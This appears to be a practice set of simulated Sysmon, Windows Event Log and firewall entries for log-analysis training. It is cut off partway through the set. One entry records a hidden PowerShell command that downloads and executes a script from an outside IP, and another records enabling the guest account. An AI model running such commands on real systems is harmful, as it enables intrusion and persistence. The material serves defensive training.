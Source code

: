 Here are **10 logs** you can practise on:

```json
[
  {
    "timestamp": "2025-08-21T14:33:44.123Z",
    "log_source": "Sysmon",
    "event_id": 1,
    "process": "powershell.exe",
    "parent_process": "explorer.exe",
    "command_line": "powershell.exe -nop -w hidden -c \"IEX (New-Object Net.WebClient).DownloadString('http://217.156.122.82/update.ps1')\"",
    "user": "CORP\\alice",
    "host": "CORP-WIN10",
    "host_ip": "192.168.10.7",
    "process_id": 3456
  },
  {
    "timestamp": "2025-08-21T14:33:45.456Z",
    "log_source": "Sysmon",
    "event_id": 3,
    "source_ip": "192.168.10.7",
    "destination_ip": "217.156.122.82",
    "port": 80,
    "protocol": "TCP",
    "process": "powershell.exe",
    "host": "CORP-WIN10"
  },
  {
    "timestamp": "2025-08-21T09:15:22.101Z",
    "log_source": "Windows Event Log",
    "event_id": 4624,
    "user": "CORP\\bob",
    "logon_type": "Interactive",
    "host": "CORP-WIN11",
    "host_ip": "192.168.10.12",
    "details": "Successful logon"
  },
  {
    "timestamp": "2025-08-21T09:16:30.234Z",
    "log_source": "Sysmon",
    "event_id": 1,
    "process": "cmd.exe",
    "parent_process": "explorer.exe",
    "command_line": "cmd.exe /c net user guest /active:yes",
    "user": "CORP\\bob",
    "host": "CORP-WIN11",
    "host_ip": "192.168.10.12",
    "process_id": 1289
  },
  {
    "timestamp": "2025-08-21T09:17:05.567Z",
    "log_source": "Firewall",
    "event_type": "Connection Attempt",
    "source_ip": "192.168.10.12",
    "destination_ip": "45.33.22.11",
    "port": 445,
    "protocol": "TCP",
    "status": "Blocked",
    "host": "CORP-WIN11"
  },
  {
    "timestamp": "2025-08-21T11:22:10.890Z",
    "log_source": "Sysmon",
```